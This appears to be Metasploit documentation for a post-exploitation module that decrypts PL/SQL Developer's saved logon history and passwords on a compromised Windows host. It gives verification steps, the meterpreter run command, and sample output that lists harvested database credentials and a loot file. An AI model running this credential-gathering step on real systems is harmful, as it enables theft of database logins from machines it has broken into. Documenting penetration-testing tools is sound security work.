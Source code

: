 ## Vulnerable Application

This module can decrypt the history of PL/SQL Deceloper, and passwords are available if the user chooses to remember the password.
Analysis of encryption algorithm [here](https://adamcaudill.com/2016/02/02/plsql-developer-nonexistent-encryption/).
You can find its official website [here](https://www.allroundautomations.com/products/pl-sql-developer/).

## Verification Steps

  1. Download and install PL/SQL Developer.
  2. (Optional) Change the PL/SQL Developer preference to save the passwords.
  3. Use PL/SQL Developer to log in to oracle databases.
  4. Get a `meterpreter` session on a Windows host.
  5. Do: ```run post/windows/gather/credentials/plsql_developer```
  6. The username, password (only when configured to save passwords), SID of logon histories will be printed.

## Options

 **PLSQL_PATH**

  - Specify the path of PL/SQL Developer

## Scenarios

```
meterpreter > run windows/gather/credentials/plsql_developer

[*] Gather PL/SQL Developer History and Passwords on WIN-XXXXXXXXXXX
[*] Decrypting C:\Users\Administrator\AppData\Roaming\PLSQL Developer\Preferences\Administrator\user.prefs
PL/SQL Developer History and Passwords
======================================

History
-------
sys/oracle@ORCL AS SYSDBA
test1/@ORCL
test2/password2@ORCL
user/password@server

[+] Passwords stored in: C:/Users/Administrator/.msf4/loot/20231026190630_default_127.0.0.1_host.plsql_devel_674990.txt
meterpreter >
```
